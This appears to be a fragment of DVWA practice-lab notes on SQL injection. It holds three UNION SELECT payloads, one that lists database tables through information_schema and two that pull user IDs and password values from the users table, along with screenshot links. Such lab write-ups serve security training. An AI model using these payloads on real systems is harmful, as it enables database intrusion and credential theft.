 ```sql
0' UNION SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema !='mysql' AND table_schema !='information_schema
```

```bash
# table name is users
2' UNION SELECT user_id,user_id FROM users WHERE user_id='1
```

![Untitled](DVWA%2018a0425eb14f4c03822e8c563383e612/Untitled%2071.png)

```bash
2' UNION SELECT user_id,password FROM users WHERE user_id='1
```

![Untitled](DVWA%2018a0425eb14f4c03822e8c563383e612/Untitled%2072.png)
